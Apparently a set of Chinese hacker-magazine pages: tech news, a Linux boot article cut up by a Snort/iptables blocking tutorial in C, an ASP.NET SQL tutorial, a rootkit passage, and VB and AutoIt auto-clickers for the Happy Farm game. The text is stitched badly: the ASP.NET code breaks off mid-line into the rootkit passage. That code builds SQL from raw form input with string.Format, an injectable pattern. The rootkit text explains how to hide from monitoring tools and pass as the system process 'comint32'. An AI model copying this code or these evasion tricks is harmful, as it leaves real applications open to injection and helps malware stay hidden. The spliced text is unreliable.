### 3、龙芯获 MIPS 专利授权

MIPS Technologies 称，中国科学院计算技术研究所（简称计算所）已经获得 MIPS32 与 MIPS64 架构的授权，技术将用于开发龙芯 CPU。龙芯之痛，即是卡在专利关口。知名 IT 杂志《PC World》撰文称：“龙芯的支持者希望终有一天这款产品能渗透外国市场，但现在使用该芯片的设备在中国也寥寥无几，龙芯的 MIPS 核心使得它与英特尔和 AMD 的 X86 结构 PC 不兼容。”龙芯使用 MIPS 架构，既是无奈，更是被迫的。

**凤凰点评：** 这也是最近讨论比较激烈的一个话题了，褒贬不一，但个人觉得这个事情没有什么对错，两方都有道理，只是选择一条路罢了，毕竟这东西还是看重市场的，在市场面前牺牲一些东西，也许你认为不值得，但别人看来也许是值得的。

### 4、苍蝇不叮无缝的蛋：黑客们盯准了基于 WinXP 的 ATM 取款机

根据报道，目前西欧地区至少有超过 20 台 ATM 取款机受到了黑客的攻击，此次的攻击被认为是一次试验行动，稍后更多的攻击将会在其它更多的 ATM 机上出现，这其中就包括美国的 ATM 机。

相关人士表示：“目前已经在西欧地区的 ATM 机上发现了一种木马病毒，这个木马病毒能够复制银行卡磁条上的数据和 PIN 码。”根据相关的报道，所有受到感染的 ATM 机都是基于微软公司的 Windows XP 操作系统，一旦这个木马病毒入侵了 ATM 机，黑客就可以获得对 ATM 完全的控制权。

**凤凰点评：** 汗……Windows 和 Linux 的口水战打到现在我都不想多说什么了，记得很久以前在学校时就看到过一次校园里的取款机出现 Windows 经典蓝屏，然后工作人员在修理，然后……继续蓝屏。那时我第一次意识到，原来 ATM 也是可以用 Windows 操作系统的啊！银行还真勇敢。

> （部分消息来自：Linux 伊甸园）

---

## Linux 内核原理分析（1）—— Linux 系统引导和初始化

图小赖涂神

通过本文了解 Linux 的系统引导及初始化。

### 引导

计算机系统的内存是“挥发性”的，当电脑关机断电之后，存储在内存中的信息连同操作系统内核映象都将被丢失。所以在加电的时候，要把操作系统内核从一个不会“挥发”的物理磁盘或者软盘，也可以是网络存储节点，装入到内存中，这个过程就是引导（boot）。一般说的引导是从磁盘上引导，本文所阐述的也是，至于从其它设备的引导，以后有机会再详细谈谈。

系统开机以后 CPU 必须能自动执行一段程序，而这段程序必须存储在不挥发存储器中。这样，当 CPU 加电之后就可以从某个特定的地址开始执行指令。以 i386 体系为例，CPU 从线性地址 0xffff0 开始读取第一条指令并执行，而这段程序的大小根据具体设计而定。

早期的计算机设计简单，程序一般只有 2K 字节或者更小。随着现代的计算机越来越复杂，这段程序也越来越大，而且早期把 DOS 的设备驱动层都整合在其中，形成了基本输入/输出系统，即 BIOS。这段程序也称为初始化引导程序，常见的中间程序有 LILO、GRUB 等。初始化引导程序除了加载“引导扇区”之外，还有加电自检、系统配置等功能。

由于芯片的操作系统多种多样，所以还得存放一段适用于具体操作系统的可执行程序作为补充，这段程序通常放在磁盘上的第一个扇区，所以称为“引导扇区”。初始化引导程序的执行是，把引导扇区的程序从磁盘上的第一个扇区读入内存，然后 CPU 跳转到引导扇区的程序开始执行。引导扇区只有一个扇区，即 512 字节，所以通常引导扇区先装入内核的其它扇区程序，再由这些装入的扇区的程序完成整个引导过程。

有时候引导扇区没有直接读取内核的映像，而是读取一个中间程序，由这个中间程序来完成操作系统内核的映像的加载。整个硬盘的第一个扇区不属于任何逻辑磁盘，但是 BIOS 还是把它当做整个硬盘的引导扇区，加电是从这个扇区“引导”的，所以这个引导扇区又被称为“主引导记录”，即 MBR。

在 linux-2.6.8-18 内核源代码中，引导程序的代码位于 `/arch/i386/boot` 中，`bootsect.S` 是 Linux 引导扇区的源代码，汇编压缩之后不超过 512 字节，即一个扇区。

在 Linux 引导过程中，程序处于实模式下，640KB－1MB 的内存是用于图形接口卡以及 BIOS 本身的，0－640KB 是作为系统的基本内存。当 BIOS（或者通过中间程序 LILO 或 GRUB）引导一个操作系统时，先把引导扇区读入到基本内存的 0x7c00 处，然后就跳转到 0x7c00 开始执行引导扇区的代码，这段代码将自己移到 0x90000 处，并跳转到那里继续执行，然后通过 BIOS 提供的中断开始读入内核的映像。

基本内存中开头的一部分空间是保留给 BIOS 自己用的，另一方面对于 Linux 内核的引导程序也需要保留一定的内存空间，所以一共保留了 64KB。这样，剩下可用来装载内核映像的空间是 512KB。在这 512KB 中，除去通过 BIOS 的中断搜集到的系统的硬件信息，还剩下 508KB。

**大小不超过 508KB 的引导映像被称为小映象，文件名是 zImage，否则就是大映象，文件名称为 bzImage。** 由于 bzImage 在基本内存中已经装载不下了，所以要装载在 0x100000（1MB）的地方。CPU 跳转到 0x100000 开始内核的执行，此后就是内核的初始化过程了。

内核的初始化是个非常漫长的过程，整个过程可以分成三个阶段：第一个阶段主要是 CPU 本身的初始化，如页式映射的建立；第二个阶段主要是系统体系结构的初始化，如内存管理和进程管理的建立和初始化；最后一个阶段主要是上层建筑的初始化，如根设备的安装和外部设备的初始化等等。


---

## 怎样自己编写简单的入侵检测系统

### 整体思路

闲话少说，下面先来介绍一下整个系统的思路，它由三部分构成：**iptables、snort 以及自己编写的第三方程序（我将它称之为 watcher）。**

Snort 负责监视发送到本地的数据包，当发现有非法数据包时会发送一个消息给本地的一个 socket 文件，我们的 watcher 负责监视这个 socket 文件。当检测到 snort 发送过来的消息时，解析此消息并调用 iptables，将发送非法数据包的主机加入到阻止列表里面。

### 初始化

**一、CPU 本身的初始化**

将 Linux 内核映像装入到内存后，CPU 就通过一个长转移指令到内核映像代码段开头入口 `startup_32` 处，从那里开始执行，其物理地址是 0x100000。由于此时已经处于保护模式下，所以整个内核映像都处于系统空间中，`startup_32` 的线性虚拟地址是 0xc0100000。

CPU 中除了 CS 以外，所有的段寄存器，即 DS、ES、FS、GS，都设置成了 `__KERNEL_DS`，表示的是全局描述符表中的段描述符表，其中的 RPL（running privilege level）为 0。

- 1. Linux 内核建立页式映射模式。
- 2. 初始化进程 swapper。
- 3. 初始化内核的 bss 段。
- 4. 通过 `setup_idt()` 设置初始状态的中断向量表。

内核的映像也跟其它的可执行程序一样，有个 bss 段，它是一些全局变量或者静态（static）变量，需要在开始运行程序之前把这个段全部清 0。

在初始状态下，256 个中断描述项全部相同，都指向同一个中断响应程序 `ignore_int()`，该函数只是显示一行出错信息。

**二、体系结构的初始化**

在之前已经进行了最低限度的初始化，接下来进行体系结构相关的初始化过程。

- 1. 建立物理内存的管理体系。

根据系统中每个连续的内存块的属性分成多个内存区间，同一个物理内存区间必须是同一类型。如果有一片地址连续的物理空间其中一部分是 RAM，而另一部分是 ROM，那就要分成两个区间；即使同属于 RAM，如果其中的一部分与另一部分用途不一样，那也属于不同的分区。

- 2. 初始化内核映射表，建立起完整的从系统空间到物理空间的线性映射。
- 3. 初始化地址空间资源的管理。
- 4. 设置陷阱门和中断门。
- 5. 初始化进程间通信机制。
- 6. 创建内核线程 init。

I386 处理器有独立的内存访问指令的 I/O 指令和独立于内存地址空间的 I/O 地址空间，这些地址空间都是有限资源，通过区分 these 地址空间的属性形成不同的地址空间区间，一般是一种树状结构。

**三、启动 init 进程**

在完成 CPU 自身的初始化和对体系结构的初始化后，CPU 创建了内核线程，开始 `init()` 的执行，这是对操作系统“上层建筑”的初始化。

- 1. 初始化 socket 网络通信机制
- 2. 外部设备的初始化
- 3. 模块的初始化
- 4. 安装文件系统根设备
- 5. 依次尝试执行 `/sbin/init`、`/etc/init`、`/bin/init`、`/bin/sh`

`/sbin/init` 根据 `/etc/inittab` 创造出一些进一步初始化的进程，这些进程会变成执行 `/bin/login` 的进程，这样 init 进程就成了整个系统所有进程共享的祖先。Init 进程作为 1 号进程一直存在系统中，直到系统关掉。

### 用户登录

启动 `/bin/login` 进程之后，用户就可以输入用户名和密码登录到操作系统中，进入了 Linux 的世界，Linux 也就启动完成了。

> **编辑点评：** 进入盛夏，我们又迎来了一个新的专题，别被这个名字吓到哦！只要你用心看，没有什么能难倒你。大家在看这部分的时候可以同本期的《WinXP 启动内幕过程》一文做对比。


### 二、编写思路

接下来介绍一下 watcher 的整体编写思路：

**watcher 分为 3 个线程：主线程、报警队列维护线程、阻止队列维护线程。**

主线程负责监视 `/tmp/snort_alert` 文件，当主线程检测到有 snort 发送过来的消息时，将发送过来的主机信息制作成一个节点并启动报警队列维护线程。报警队列维护线程首先会检测一下传进的节点是否已经存在于阻止队列中。即检测一下是否已经阻止了此主机的数据包。如果没有，则调用 iptables 使本机丢弃掉节点主机的所有数据包，然后将此节点加入到阻止队列里面，最后报警维护线程唤醒阻止队列维护线程。阻止队列维护线程负责将超时的主机从阻止队列里面删除。

存在的问题：

- 1. 无论是报警队列还是阻止队列，其中的信息在某一时刻下只允许“写入”或“删除”其中一种操作。也就是说，报警队列（pAlertQueue）和阻止队列（pBlockQueue）属于临界资源，应当予以适当的保护。此文中我使用了 Linux 系统提供的一组函数来处理这个问题。
- 2. 只要触发了 snort 预先定义好的规则，就会将发送该数据包的主机阻止。这样就需要研究一下怎样定义 snort 规则才能更加高效地识别攻击数据包和伪攻击数据包（貌似攻击数据包的正常数据包），由于这部分超出了本文的范围，所以笔者打算在后续的文章里面再做介绍。

### 三、开始编写

下面，我将通过代码来进一步解释整个程序的工作过程。Watcher 每收到一个 snort 发来的主机信息，就将其制作成一个节点然后将此节点加到一个队列中（pAlertQueue 队列）。

以下代码是节点结构和队列结构：

```c
typedef struct _HostInfo
{
    int event_id; // 节点 ID
    char blockIP[15]; // 阻塞主机的 IP 地址
    time_t timestamp; // 阻塞开始时间
    int blocktime; // 主机阻塞时间
    char msg[500]; // 阻塞原因
    char desIP[16]; // 引起报警的包的目的地址
    char protocol[5]; // tcp、udp or icmp
    uint16_t srcPort; // 源端口
    uint16_t desPort; // 目的端口
    struct _HostInfo* next; // 指向下一个节点
} HostInfo; // 队列里的节点结构
```

然后是报警队列结构，这个结构其实只包含了两个指向 HostInfo 结构的指针和一个计数用变量，代码如下：

```c
typedef struct _Queue
{
    struct _HostInfo *head, *end;
    int count;
} Queue; // 报警队列

typedef struct _Queue BlockQueue;
typedef struct _Queue AlertQueue;
```

在这个结构之后定义了两个全局变量，分别是报警队列指针和阻止队列指针。

在介绍了 watcher 最重要的两个数据结构之后，就可以开始看 watcher 的 `main()` 函数了，因为整个系统都是围绕着两个 `_Queue` 队列（BlockQueue 队列和 AlertQueue 队列）里面的各个 HostInfo 节点展开的，相关代码如下：

```c
int main (int argc, char** argv)
{
    ......
    pthread_create(&tidA, NULL, alertHandler, NULL);
    pthread_create(&tidB, NULL, blockHandler, NULL);

    // 创建套接字
    if ((sockfd = socket(AF_UNIX, SOCK_DGRAM, 0)) < 0)
    {
        perror("socket");
        exit(1);
    }

    ......
    if (bind(sockfd, (struct sockaddr *)&snortaddr, sizeof(snortaddr)) < 0)
    {
        perror("bind");
        exit(1);
    }

    // 主线程开始循环接收 snort 发送过来的消息。
    while ((recv = recvfrom(sockfd, (void *)&alert, sizeof(alert), 0, (struct sockaddr *)&bogus, &len)) > 0)
    {
        if(alert)
        {
            p = (struct Packet *)calloc(1, sizeof(struct Packet));
            ParsePacket(p, &alert); /* 分析 snort 发送过来的数据，此函数用于将主机的原始报警包及网络各层加的头部信息拷贝到 Packet 结构中。Packet 结构用于存放原始的数据包，以及各个层封装的包头部（以太网头部、IP 头部、TCP 头部等等） */
            if(p)
            {
                myNode = makeNode(p, &alert); // 根据数据包的信息，创建一个主机节点
                if(myNode)
                    addNodeToAlertQueue(myNode); // 将主机节点加入到报警队列（pAlertQueue 中）
                else
                    printf("[!]addNodeToQueue failed!\n");
            }
        }
    }
    return 0;
}
```

下面介绍一下 `main()` 函数做的重点工作：

- 1. 开启两个处理线程 `alertHandler` 和 `blockHandler`，这两个函数将在下文中介绍。
- 2. 分析发送过来的数据包，并将数据包加入到报警队列中（通过调用 `addNodeToAlertQueue()` 函数）。

再来看一下 `addNodeToAlertQueue()` 函数，相关代码如下：

```c
void addNodeToAlertQueue(HostInfo *node){
    pthread_mutex_lock(&AQ_mutex);

    if(pAlertQueue->count == 0){ // 如果链表是空的
        pAlertQueue->head = node;
    }
    else{ // 如果链表不是空的，就将新节点加入到链表尾部
        pAlertQueue->end->next = node;
    }

    pAlertQueue->end = node;
    pAlertQueue->count++; // 节点计数器增加 1，用以统计 pAlertQueue 链表中的主机节点数目

    pthread_mutex_unlock(&AQ_mutex);
    pthread_cond_signal(&AQ_cond); // 唤醒 alertHandler() 处理线程
}
```

此函数中需要说明的是 `pthread_mutex_lock()` 和 `pthread_mutex_unlock()` 函数，lock 函数用于锁定一组临界资源，当某个进程想要访问一个已经被其它进程所 lock 的资源时，该进程将会阻塞。

程序将处于阻塞状态直到这个资源被 unlock。

在 `addNodeToAlertQueue()` 函数的最后，调用了 `pthread_cond_signal(&AQ_cond)` 函数，它的功能是唤醒处于等待状态（等待条件为 `AQ_cond`）的线程。关于 `pthread_cond_signal()` 函数更详细的信息，可以参考 `man` 手册页。

那么接下来的问题是，哪一个线程处于 `AQ_cond` 条件指定的等待状态呢？答案是由 `main()` 创建的 `alertHandler()` 线程，下面是该线程的代码：

```c
void *alertHandler(void * vptr){
    HostInfo *pHost;
    char command[100];
    int flagFound = 0;
    int i;

    while(1){
        if(pAlertQueue->count == 0){
            pthread_mutex_lock(&AQ_mutex);
            printf("[+]alertHandler is waiting...\n");
            pthread_cond_wait(&AQ_cond, &AQ_mutex);
            pthread_mutex_unlock(&AQ_mutex);
        }

        printf("[+]alertHandler is processing ...\n");

        while(pAlertQueue->count != 0){
            pHost = popNodeFromAlertQueue();

            HostInfo *pBlockedHost = pBlockQueue->head;

            if(pBlockQueue->count == 0){
                snprintf(command, sizeof(command), "%s -I INPUT -s %s -j DROP", pIptablePath, pHost->blockIP);
                printf("running command:%s\n", command);
                if(system(command) < 0){
                    perror("execute");
                    exit(1);
                }else{
                    addNodeToBlockQueue(pHost);
                    sleep(2);
                }
            }
            else{
                for(i = 0; i < pBlockQueue->count; i++){
                    if(!strcmp(pHost->blockIP, pBlockedHost->blockIP)){ // 如果找到
                        printf("[+]找到主机\n");
                        free(pHost);
                        flagFound = 1;
                        break;
                    }
                    else
                        pBlockedHost = pBlockedHost->next;
                }

                if(!flagFound){ // 如果没找到，加入到 BlockHost 队列中，并阻止主机
                    snprintf(command, sizeof(command), "%s -I INPUT -s %s -j DROP", pIptablePath, pHost->blockIP);
                    printf("running command:%s\n", command);

                    if(system(command) < 0){
                        perror("execute");
                        exit(1);
                    }else{
                        addNodeToBlockQueue(pHost);
                    }
                }
            }

            printf("[+]pAlertQueue->count = %d\n", pAlertQueue->count);
        }
        pthread_cond_signal(&BQ_cond);
    }
}
```

当 `alertHandler()` 检测到 `pAlertQueue` 的计数器为零（即报警队列为空）的时候，进入等待状态，等待条件为 `AQ_cond`。这也是为什么 `addNodeToAlertQueue()` 函数能够唤醒 `alertHandler()` 线程的原因。

当报警队列不为空时，再判断阻止队列是否为空。如果阻止队列为空，说明当前主机不存在于阻止队列中，这种情况下，只需将该主机直接加入到阻止队列中就可以。但如果阻止队列不为空，程序会首先将当前主机节点 `pHost` 和阻止队列中的各个节点比较，如果在阻止队列中找到 `pHost` 主机，则只是简单的报告一下。如果在阻止队列中找不到 `pHost` 主机，则将 `pHost` 主机加入到阻止队列中去。

在 `alertHandler()` 的最后，再一次调用了 `pthread_cond_signal()` 函数，不过这次唤醒的是 `blockHandler()` 线程，相关代码如下：

```c
void *blockHandler(void * vptr){
    HostInfo *pPre, *pCur;
    time_t totalTime;
    int flagNeedInit = 0;
    char command[100];

    while(1){
        if(pBlockQueue->count == 0){
            printf("[+]blockHandler is waiting...\n");
            pthread_cond_wait(&BQ_cond, &BQ_mutex);
        }
        flagNeedInit = 1;
        printf("[+]blockHandler is processing...\n");
        while(pBlockQueue->count != 0){
            if(flagNeedInit){
                pPre = pCur = pBlockQueue->head;
                flagNeedInit = 0;
            }

            totalTime = pCur->timestamp + pCur->blocktime;

            if(totalTime < time(NULL)){
                snprintf(command, sizeof(command), "%s -D INPUT -s %s -j DROP", pIptablePath, pCur->blockIP);

                printf("[+]running command:%s\n", command);
                system(command);

                if(pCur != pBlockQueue->end){
                    pPre->next = pCur->next;
                    free(pCur);
                    pCur = pPre->next;
                    pBlockQueue->count--;
                }else{
                    free(pCur);
                    flagNeedInit = 1;
                    pBlockQueue->count--;
                }
            }
            else{
                if(pCur == pBlockQueue->end){
                    sleep(10);
                    flagNeedInit = 1;
                }
                else
                    pCur = pPre->next;
            }
        }
    }
}
```

`blockHandler()` 首先检查阻止节点中的主机被阻止的时间是不是已经达到了预设的时间，如果达到了预设时间，就从 `iptables` 的规则列表中删除该主机节点；如果还没有超过预设时间就什么也不干。最后，指针指向下一个主机节点，进入下一轮循环，直到阻止队列中没有主机节点为止。

以上就是 watcher 的主要代码，完整代码请参考光盘里的打包源程序。代码在 backtrack 3 final kernel 2.6.27.8 gcc 4.2.2 下编译通过，这里说一下编译的指令吧：**gcc watcher.c -o watcher -lpthread**，或者你也可以在源代码目录中直接执行指令：**#make**。

最后需要说明的就是如何使用本程序了：

首先运行我们的 watcher 程序，在 watcher 的目录下面使用以下命令即可，参数是 iptables 在你的 Linux 中的存放位置：
**#./watcher /usr/bin/iptables**

然后需要配置一下 snort 的输出插件，使 snort 输出到 socket 文件。snort 的配置文件一般位于 `/etc/snort/snort.conf` 下，找到此文件中的 **“Step #4. Configure output plugins”** 节，然后在下面新起一行输入 **output alert_unixsock**，保存退出后，用以下命令启动 snort：
**#snort -c /etc/snort/snort.conf -l /tmp/**

> **编辑点评：**
> 比起 Windows 下的编程，Linux 下的程序设计更注重思路而不是实现的方法，Linux 自身就提供了很多强大的工具，还有各种强大的脚本语言；如果你愿意，本文的效果可以由 N 多的方法实现，大家不妨自己试试，写一个属于自己的入侵检测系统。

## Asp.net（三）

### 篇首语

本期给大家带来了三篇外挂方面的文章，由浅显至深入，希望大家能够喜欢，同时也希望能看到更多这方面的文章，让大家了解外挂的世界，揭开其神秘的面纱。

现今的世界，病毒、木马、恶意代码横行，杀毒软件公司却肆意妄为地将一些辅助功能强加于用户，真是无法无天。大家是否可以自己打造免费的、源代码公开的、通用的，可以手工添加特征码，快速清除的，操作简单的工具呢？如果有这个能力，也有这个想法，那就来投稿给小编我吧！小编我也同样期待着一款民间的、由所有网友支持的综合清除工具的诞生！

### 从本文您可以学到：
- 掌握 SQL 的简单增、删、改、查

在上一节中我们了解了变量、session 的使用，以及关于字符串处理的一些知识，这节中我们来学习下 ASP.NET 中对数据库进行增、删、改、查的一些操作。这里我们用 SQL SERVER 2005 作为讲解，当然 SQL SERVER 2000 也同样适用。

### SQL SERVER 基础

安装完成之后，依次选择“开始”→“程序”→“Microsoft SQL Server 2005”→“SQL Server Management Studio”（记得首先应该启动服务），然后按照以下操作：

```sql
use master -- 进入 master 数据库
go

create database userdb -- 创建 userdb 数据库
go

use userdb
go

create table userinfo -- 创建表 userinfo
(
    id int IDENTITY (1,1) PRIMARY KEY, -- 创建列名为 id，IDENTITY(1,1) 是指该列为标识列并从 1 开始以 1 递增；PRIMARY KEY 是指该列为该表的主键
    username varchar(50), -- 创建列名为 username，类型为 varchar 的列，varchar 类似于 C# 中的 string
    password varchar(50)
)
```

插入数据，代码如下：
```sql
insert into userinfo(username,password) values('4lert','123456') -- 插入一条 username 字段为 4lert，password 字段为 123456 的记录
```

更新数据，代码如下：
```sql
update userinfo set username='nohack', password='654321' where id=1 -- 将 id 为 1 的记录的 username 字段值改为 nohack，password 字段改为 654321
```

删除数据，代码如下：
```sql
delete from userinfo -- 删除该表中的全部记录
delete from userinfo where id=1 -- 删除该表中的 id 为 1 的记录，设置主键的原因也就是方便更新以及删除、查询
```

查询数据，代码如下：
```sql
select * from userinfo -- 查询该表中的全部记录
select * from userinfo where id=1 -- 查询该表中 ID 为 1 的记录
```

### 如何使用 SqlCommand 操作数据库

```csharp
/// <summary>
/// 获得一个连接【方法】
/// </summary>
/// <returns></returns>
public SqlConnection getConnection()
{
    string connectionstring = "Data Source=.; Initial Catalog=userdb; Integrated Security=True"; // 连接字符串
    SqlConnection sqlConnection = new SqlConnection(connectionstring); // 创建一个连接对象
    return sqlConnection; // 返回一个连接对象
}

/// <summary>
/// 插入记录
/// </summary>
/// <param name="sender"></param>
/// <param name="e"></param>
protected void btnInsert_Click(object sender, EventArgs e)
{
    string sql = "insert into userinfo values('{0}','{1}')"; // 执行的 SQL 语句，{0} 为占位符；方便后面直接替换 SQL
    SqlConnection sqlConnection = getConnection(); // 调用前面的方法，获得一个连接对象
    sqlConnection.Open(); // 打开一个连接
    SqlCommand command = new SqlCommand(string.Format(sql, this.txtUsername.Text, this.txtPassword.Text), sqlConnection); // 组装 SqlCommand
    int i = command.ExecuteNonQuery(); // 执行查询
    if (i == 1) // 如果返回为 1，那么插入成功，反之貌，从而躲避察觉，并在系统调用完毕后再次移除。这样我们的程序将被监控软件所信任，因为在监控软件看来，我们的 rootkit 没有被隐藏，而事实上对于用户，我们的 rootkit 并没有出现在驱动程序的列表上。

你应该发现 Ghost.c 中使用了很多状态调试语句，这些语句的输出将在运行时被 DebugView 或是其它内核调试工具所捕捉到。整个文件布满了 DbgPrint 语句，该语句将输出各种程序运行状态，以便于我们观察程序是否正常运行。当然，这样的输出语句在完善的版本中也是应被移除的，因为作为一个 rootkit，我们并不希望轻易的被察觉。

你应该还发现每一个调试语句中都使用了 “comint32” 作为输出的前缀提示，使用前缀是为了使我们的调试输出能更好的与其它进程区分开来。而选择 “comint32” 作为标识符则是为了伪装我们的 rootkit，我们希望通过这个标识符来使用户觉得这是一个正常的系统进程。在本例中，没有使用任何技术从文件系统中隐藏我们的 rootkit 程序，因而使用一个容易与系统文件混淆的文件名将是一个很好的保护方法。

完成了上述的一切，现在需要的是为我们的 rootkit 操作进行配置。这个例子实际上并不提供真实远程控制连接，但是我们想演示的是如何通过 ADS 进行配置数据的读写，并且完成一个能够被编译执行的完整程序。

### 小知识:

> ADS 即 Alternate Data Stream (交换数据流)，这是 NTFS 文件系统中一个很少被大家注意的特性，通过该特性，可以在保证一个文件完整的情况下给该文件附加一些额外的信息。这些本不属于该文件的信息就叫做 “交换数据流 (Alternate Data Stream)”，而文件本身则叫该文件的 “主数据流 (Primary Data Stream)”。

目前我们只为 rootkit 提供一个配置管理功能，在往后的学习中会再慢慢地为 rootkit 增加更多的功能。

(文章中所涉及的相关代码及工具都已经收录在本期光盘)

### 编辑点评:

> 看完本文，感觉 Rootkit 也不是那么难写，各位看官不如动手写写，说不定就产生一大作了，哈哈!


## 熟练使用 VB 编写鼠标模拟程序

从本文您可以学到：
- 熟练使用 VB 编写鼠标模拟程序

上开心网就是为了开心，如果不开心那还上去干嘛？去农场就是为了偷盗，如果偷不到，那还去干嘛？

其实在农场中，偷盗是否成功，除了受服务器时间差、本地网络速度等外在因素的影响，更主要的还是自身的原因——鼠标点击速度。人点击鼠标的速度再快，不可能快过电脑，不是吗？那我们完全可以用鼠标模拟点击的工具来完成偷盗，所以驾驭上网寻找利器，结果试用了多个程序，都不尽人意。正因如此，有了自己编写开心农场专用的鼠标点击程序的想法。

程序很简单，也没什么难点，大家就跟着我一起来制作吧，等完成后如果还觉得不满意，可以自己修改代码，增加自己需要的功能。

### 设计及编写

首先是程序需要使用的控件，4 个 Label、1 个 ListBox 及 1 个 Timer，如图 1 所示。

现在就进行代码的编写了，首先需要定义及初始化变量，注册程序需要使用的热键。程序注册的为全局热键，需要获取当前窗口的指针进行保存，方便程序退出时恢复原样，防止退出后而导致系统出错。完成后即可设置新的调用函数，另外，为了方便查看，需要将窗口设置为顶层。


```vb
' 代码如下:
Public OldWindowProc As Long ' 定义当前窗口指针变量
Dim i As Integer ' 定义循环变量

Private Sub Form_Load()
    ' 初始化循环变量
    i = 0
    ' 设置窗口为最顶层
    Call KeepOnTop(Me.hwnd)
    ' 定义全局热键
    Call RegisterHotKey(Me.hwnd, vbKeyQ, MOD_ALT, vbKeyQ)
    Call RegisterHotKey(Me.hwnd, vbKeyA, MOD_ALT, vbKeyA)
    Call RegisterHotKey(Me.hwnd, vbKeyS, MOD_ALT, vbKeyS)
    Call RegisterHotKey(Me.hwnd, vbKeyD, MOD_ALT, vbKeyD)
    ' 获取当前窗口的指针
    OldWindowProc = GetWindowLong(Me.hwnd, GWL_WNDPROC)
    ' 判断是否获取成功，否则退出
    If OldWindowProc <> 0 Then
        ' 为当前窗口设置调用函数地址
        Call SetWindowLong(Me.hwnd, GWL_WNDPROC, AddressOf WindowProc)
    End If
End Sub
```

拦截系统热键按键消息 WM_HOTKEY，一旦拦截成功就丢入选择过程，判断按了哪个键。如果是，则根据相应的按键执行对应的代码；如果不是，则交给系统，等待下一次。

这里获取坐标后用 “,” 连接，放入列表框中，便于使用者查看及单个删除。使用 “,” 连接的另一个好处是：当调用时，只要用 “,” 作为关键字即可拆分坐标。

这里有个小小的注意点：在使用 MsgBox 之前建议用 SetFocus 方法使程序窗口获得焦点，这样做的好处是可以省去鼠标点击，而直接用键盘操作，否则焦点在农场所在的窗口上，弹出消息框后必须使用鼠标操作。

```vb
' 代码如下:
' 判断并执行对应按钮
Public Function WindowProc(ByVal hwnd As Long, ByVal uMsg As Long, ByVal wParam As Long, ByVal lParam As Long) As Long
    ' 过滤系统消息
    Select Case uMsg
        ' 是热键消息，继续进行选择按钮
        Case WM_HOTKEY
            ' 选择热键的按键
            Select Case wParam
                'Q
                Case vbKeyQ
                    ' 禁止时钟停止计时
                    mainfrm.timClick.Enabled = False
                    ' 退出程序
                    Unload mainfrm
                'A
                Case vbKeyA
                    Dim Pos As POINTAPI ' 定义坐标结构
                    ' 获取当前坐标
                    Call GetCursorPos(Pos)
                    ' 添加坐标至列表框
                    mainfrm.lstPos.AddItem Pos.X & "," & Pos.Y
                'S
                Case vbKeyS
                    ' 禁止时钟停止计时
                    mainfrm.timClick.Enabled = False
                    ' 设置本程序窗口获得焦点，便于下面的消息对话框用键盘操作
                    mainfrm.SetFocus
                    ' 给出清除坐标消息对话框，是则清除列表框中的所有坐标
                    If MsgBox("是否清除现有坐标?", vbInformation + vbYesNo) = vbYes Then mainfrm.lstPos.Clear
                'D
                Case vbKeyD
                    ' 激活时钟进行计时，开始模拟鼠标点击
                    mainfrm.timClick.Enabled = True
            End Select
    End Select
    ' 继续拦截下一个消息
    WindowProc = CallWindowProc(OldWindowProc, hwnd, uMsg, wParam, lParam)
End Function
```

利用时间控件进行循环控制的好处是可以适应硬件配置不同的机器，配置较差的可以将间隔调大一点。循环获取列表框中的各项值，获取后用“，”进行坐标拆分，之后根据坐标设置鼠标位置，并模拟鼠标点击。所有坐标循环一次后重置循环变量进行下一次循环。

代码如下：

```vb
Private Sub timClick_Timer()
    Dim p() As String ' 设置坐标动态数组
    ' 判断是否为最后一个坐标
    If i <= lstPos.ListCount - 1 Then
        ' 否则根据“,”拆分坐标
        p = Split(lstPos.List(i), ",")
        ' 设置鼠标坐标
        Call SetCursorPos(p(0), p(1))
        ' 模拟鼠标左键点击
        Call mouse_event(MOUSEEVENTF_LEFTDOWN Or MOUSEEVENTF_LEFTUP, p(0), p(1), 0&, 0&)
        ' 循环变量加 1，进行下一个坐标
        i = i + 1
    Else
        ' 是则重置循环变量为 0，下一次重头开始
        i = 0
    End If
End Sub
```

上面提到的单个删除坐标的代码太过简单，这里就不给出了，详细代码请见光盘。到这里就完成了代码的编写，简单不？

### 使用

首先打开开心农场，界面如图 2 所示。

接着执行刚编译的程序，然后将鼠标移动至要偷盗的农作物上，按下 ALT+A 进行坐标的获取，循环操作这一步将所有需要偷盗的农作物坐标全获取完成后按下 ALT+D 开始进行偷盗。偷盗结束后按 ALT+S 停止偷盗，弹出是否需要清除列表框中所有坐标的消息框，可以根据需要进行选择。


以上是最为简单的使用，下面来一个高级的——偷盗两个好友。首先还是打开农场和程序，及获取第一个好友的农作物坐标。之后点击好友列表中另一个好友的名字，如果不在同一页，可以点击滚动条。注意！这里是点击，而不是拖动，因为程序不支持。

再到第二个好友的农场中获取农作物坐标，完成后反方向点击滚动条至第一个好友出现，点击第一个好友名字获取坐标。现在就可以在两个好友之间进行偷盗了，偷盗更多好友只要重复后面的几步即可。

在偷盗白萝卜、胡萝卜这类坐标不容易获取的农作物时，可以在一块农作物上多获取几个不同的坐标，这样不管怎么样，其中一个坐标应该是正确的，偷盗即可成功。

### 结尾

鼠标模拟拖动其实也是很容易实现的，不过需要添加关键字来区别是点击还是拖动了，代码编写方面会相对比较麻烦。

(文章中所涉及的相关代码及工具都已经收录在本期光盘)

> **编辑点评：** 这不能算是一个标准的外挂程序，但却具有了外挂的特点，外挂就是这么产生的吧！

## 千橡开心农场之 AutoIt 批量处理

从本文您可以学到：
- AutoIt 入门

前一篇给大家介绍了针对两个好友农场的偷盗，本文将介绍处理所有好友。闲话不多说了，请大家跟着我来吧。

### 分析

开心农场总共 28 块农田、一头奶牛、一只鸡及一头迷你猪，如图 1 所示。

先说明一下游戏规则，其中规定奶牛、鸡、迷你猪不需要除草、除虫、浇水，迷你猪是不能偷盗的，其它的都需要除草、除虫、浇水，除鲜花不能偷盗之外，其它均可以偷盗。

- 1. 根据这个规则，在偷盗时虽然鲜花不能偷，但还是种植于农田中，所以为了简化偷盗过程，不判断偷盗的是否为鲜花即可。
- 2. 除草、除虫、浇水时可以忽略奶牛、鸡及迷你猪。
- 3. 好友列表的一屏显示 7 个好友，但下一屏的第一个则为上一屏的最后一个，实际一屏的有效好友数为 6 个，因此循环次数为除以 6 的结果。比如本例中为 77 个好友，循环次数则为 77/6，结果 12 次。有人要问，剩下的 5 人怎么办，不是应该再加 1 吗？其实不用啦，因为第一页是不用点击的，不是吗？好友列表占用的界面比较大，影响其它操作，而唯一适合的位置位于右下角，但右下角有一放大镜，因此要使滚动条避开放大镜。
